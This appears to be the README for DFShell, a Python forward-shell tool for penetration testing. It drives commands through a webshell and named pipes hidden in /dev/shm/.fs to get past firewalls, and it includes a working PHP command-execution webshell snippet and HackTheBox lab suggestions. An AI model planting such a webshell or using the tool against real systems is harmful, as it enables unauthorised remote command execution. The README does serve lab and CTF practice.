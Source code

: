 ```
██████╗ ███████╗███████╗██╗  ██╗███████╗██╗     ██╗     
██╔══██╗██╔════╝██╔════╝██║  ██║██╔════╝██║     ██║     
██║  ██║█████╗  ███████╗███████║█████╗  ██║     ██║     
██║  ██║██╔══╝  ╚════██║██╔══██║██╔══╝  ██║     ██║     
██████╔╝██║     ███████║██║  ██║███████╗███████╗███████╗
╚═════╝ ╚═╝     ╚══════╝╚═╝  ╚═╝╚══════╝╚══════╝╚══════╝                      
```

# Introduction

***D3Ext's Forward Shell*** it's a python3 script which use mkfifo to simulate a shell into the victim machine. It creates a hidden directory in /dev/shm/.fs/ where the fifos are stored. You can even simulate a TTY over the webshell.

# Explanation

This forward shell creates a shell that accepts commands via a ***Named Pipe (mkfifo)*** and outputs the results to a file. By doing this the shell does not require a persistent network connection so you can establish a proper TTY behind a firewall that blocks reverse/bind shells.

1. Create a named pipe on target server
2. Read and execute commands received from named pipe
3. Save STDOUT and STDERR to output file
4. Return to 2nd step and read from named pipe again

# Features

- Fast and configurable
- Integrated powerful commands
- Interactive TTY shell

# Installation

> Install from source
```sh
git clone https://github.com/D3Ext/DFShell
cd DFShell
pip3 install -r requirements.txt
```

> Install with pip
```sh
pip3 install dfshell
```

# Usage

***DFShell*** has a variety of CLI parameters to improve configuration of the forward shell.

> Help panel
```
usage: dfshell.py [-h] -u URL -p PARAMETER [-t TIMEOUT] [--path PATH] [-v VERBOSE]

D3Ext's Forward Shell - Enhanced forward shell with integrated commands

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     url of the webshell (i.e. http://10.10.10.10/webshell.php)
  -p PARAMETER, --parameter PARAMETER
                        parameter of the webshell to execute commands (i.e. cmd)
  -t TIMEOUT, --timeout TIMEOUT
                        timeout of requests that execute commands (default 20s)
  --path PATH           path in which to create named pipes (default /dev/shm/.fs)
  -v VERBOSE, --verbose VERBOSE
                        print more information
```

It sends GET requests to given URL, so the webshell should be something like this:

```php
<?php
  if(isset($_REQUEST['cmd']))
  {
    system($_REQUEST['cmd']);
  }
?>
```

Tested on ***Parrot OS*** with an Apache server

If you want to test this tool in controlled environments, here is a list of HackTheBox machines in which firewall rules are applied on web server, so forward shell is a great alternative to directly go through privilege escalation.

- ***Inception***
- ******
- ******
- ******
- ******

# Demo

<img src="https://raw.githubusercontent.com/D3Ext/DFShell/main/images/demo1.png">

<img src="https://raw.githubusercontent.com/D3Ext/DFShell/main/images/demo2.png">

<img src="https://raw.githubusercontent.com/D3Ext/DFShell/main/images/demo3.png">

# References

Thanks to @ippsec for this awesome technique

```
https://github.com/IppSec/forward-shell
https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/linux#forward-shell
https://www.f5.com/labs/learning-center/forward-and-reverse-shells
https://github.com/Hypnoze57/FShell
https://s4vitar.github.io/ttyoverhttp/
```

# Contributing

See [CONTRIBUTING.md](https://github.com/D3Ext/DFShell/blob/main/CONTRIBUTING.md)

# Changelog

See [CHANGELOG.md](https://github.com/D3Ext/DFShell/blob/main/CHANGELOG.md)

# License

This project is under MIT license

Copyright © 2023, *D3Ext*

# Support

<a href="https://www.buymeacoffee.com/D3Ext" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/v2/default-blue.png" alt="Buy Me A Coffee" style="height: 60px !important;width: 217px !important;" ></a>



